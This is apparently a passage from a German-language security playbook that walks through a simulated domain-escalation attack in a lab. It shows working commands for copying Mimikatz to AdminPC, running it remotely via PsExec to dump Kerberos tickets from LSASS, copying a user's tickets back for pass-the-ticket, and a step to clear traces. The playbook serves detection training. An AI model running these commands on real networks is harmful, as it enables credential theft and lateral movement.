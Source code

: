 Im Security Operations Center wird unser Security Analyst auf die gefährdeten Berechtigungen aufmerksam gemacht und kann schnell feststellen, auf welche Ressourcen zugegriffen wurde.

## <a name="domain-escalation"></a>Domänenausweitung

Von unserem simulierten Angriff aus haben wir nicht nur Zugriff auf AdminPC, wir haben auch Administratorrechte auf AdminPC validiert. Wir können nun seitlich auf AdminPC wechseln und weitere Anmeldeinformationen sammeln.

Hier werden wir:

* Mimikatz auf AdminPC bereistellen
* Tickets auf AdminPC sammeln
* Pass-the-Ticket an SamiraA

### <a name="pass-the-ticket"></a>Pass-the-Ticket

Wechseln Sie über die Eingabeaufforderung, die im Kontext von *RonHD* auf **VictimPC** ausgeführt wird, zu dem Ort, an dem sich unsere allgemeinen Angriffstools befinden. Führen Sie dann xcopy aus, um diese Tools auf den AdminPC zu verschieben:

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

Drücken Sie bei Aufforderung ```d``` und geben Sie an, dass der Ordner „temp“ ein Verzeichnis auf dem AdminPC ist.

![Kopieren von Dateien zu AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

Da Mimikatz auf AdminPC bereitgestellt wurde, werden wir PsExec verwenden, um es remote auszuführen.

1. Wechseln Sie zum Speicherort von PsExec, und führen Sie den folgenden Befehl aus:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   Dieser Befehl führt die im Prozess LSASS.exe gefundenen Tickets aus und exportiert sie in das aktuelle Verzeichnis auf dem AdminPC.

2. Wir müssen die Tickets von AdminPC zurück zu VictimPC kopieren. Da wir für dieses Beispiel nur an SamiraA's Tickets interessiert sind, führen Sie den folgenden Befehl aus:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   ![Export der gesammelten Anmeldeinformationen von AdminPC zurück zu VictimPC](media/playbook-escalation-export_tickets2.png)

3. Lassen Sie uns unsere Spuren auf dem AdminPC beseitigen, indem wir unsere Dateien löschen.
